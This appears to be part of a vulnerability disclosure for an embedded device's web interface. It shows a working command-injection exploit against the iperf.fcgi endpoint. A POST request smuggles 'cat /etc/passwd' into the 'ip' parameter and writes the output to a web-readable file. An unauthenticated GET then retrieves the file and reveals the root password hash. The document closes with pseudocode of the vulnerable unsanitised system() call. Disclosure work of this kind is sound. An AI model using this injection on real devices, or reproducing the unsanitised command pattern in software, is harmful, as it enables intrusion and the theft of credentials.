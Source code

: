 Below is a request to read the file '/etc/passwd' and output the data to a
file we can read through the web server.

~~~
POST /iperf.fcgi HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.10/index.html
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 79
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close

op=client&ip=192.168.0.10;cat+/etc/passwd>>/usr/local/www/cmd.txt;&sec=1&para=1
~~~

The result indicates that no error occurred.

~~~
HTTP/1.1 200 OK
Content-Type: text/json
Connection: close
Server: lighttpd/1.4.32-devel-27736
Content-Length: 15

{"errorCode":0}
~~~

The result of the command can be retrieved by sending an unauthenticated request
to the web server.

~~~
GET /cmd.txt HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.10/
Connection: close
~~~

The result contains the hashed password for the root-user.

~~~
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 51
Connection: close
Server: lighttpd/1.4.32-devel-27736

root:$1$$qRPK7m23GJusamGpoGLby/:0:0::/root:/bin/sh
~~~

Pseudocode for the vulnerable parts of the code is shown below:

~~~
char* ip = get_parameter("ip");
char* secStr = get_parameter("sec");
char* paraStr = get_parameter("para");
int sec = atoi(secStr);
int para = atoi(paraStr);
char cmd[0x80];
snprintf(cmd, 0x80, "iperf -c %s -t %d -f m -i 1 -P %d &", ip, sec, para);
system(cmd);
~~~
